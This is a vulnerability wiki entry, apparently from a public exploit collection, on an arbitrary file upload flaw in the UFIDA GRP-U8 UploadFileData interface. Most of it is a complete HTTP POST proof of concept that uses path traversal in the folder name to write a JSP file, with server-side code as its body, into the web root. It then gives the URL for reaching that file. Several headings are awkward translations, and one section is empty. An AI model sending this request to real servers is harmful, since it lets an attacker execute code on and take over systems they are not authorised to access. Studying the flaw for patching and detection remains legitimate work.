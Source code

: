 # UFIDA GRP-U8 UploadFileData any file upload vulnerability

## Vulnerability Description

UFIDA GRP-U8 UploadFileData interface has a vulnerability to upload any file, and an attacker can obtain server permissions through the vulnerability.

## Vulnerability Impact

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">UFIDA GRP-U8 </span>

## Network surveying and mapping



## Vulnerability reappears

Login page

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1658984179476-4b141067-664e-4147-9632-c05e05f88b02.png)

Verify POC

```php
POST /UploadFileData?action=upload_file&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&foldername=%2e%2e%2f&filename=debugg.jsp&filename=1.jpg HTTP/1.1
Host: 
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: JSESSIONID=59227D2C93FE3E8C2626DA625CE710F9
Content-Type: multipart/form-data
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/103.0.5060.134 Safari/537.36

------WebKitFormBoundary92pUawKc
Content-Disposition: form-data; name="myFile";filename="test.jpg"

<% out.println("123");%>
------WebKitFormBoundary92pUawKc--
```

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1658984367405-5725ee72-e2b0-457d-bbda-528499a8d165.png)

Access to the written file

```php
/R9iPortal/debugg.jsp
```

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1658985432892-1b051d1e-8f3b-4acb-8eb3-b73ad755c05f.png)